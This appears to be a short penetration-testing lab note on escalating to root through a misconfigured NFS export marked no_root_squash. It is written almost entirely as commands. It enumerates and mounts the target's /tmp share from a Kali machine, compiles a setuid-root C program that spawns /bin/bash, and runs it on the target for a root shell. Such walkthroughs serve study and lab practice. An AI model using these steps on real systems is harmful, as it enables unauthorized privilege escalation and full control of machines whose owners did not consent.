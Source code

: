 #### Mounting
Target:
```bash - target
cat /etc/exports
```

Notice how the /tmp directory is set to no_root_squash.

Kali:
```bash - kali
showmount -e $TARGET
```

Similar Nmap script:

```bash
nmap –sV –script=nfs-showmount <target>
```

```bash - kali
mkdir /tmp/mountme
```

```bash - kali
sudo mount -o rw,vers=2 $TARGET:/tmp /tmp/mountme
```

```
ls /tmp/mountme
```

#### Root Squashing
```bash - kali
cd /tmp/mountme
```

```bash - kali
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > x.c
```

```bash - kali
sudo gcc x.c -o x
```

```bash - kali
sudo chmod +s x
```

Target:
```bash - target
cd /tmp
```

```bash - target
./x
```
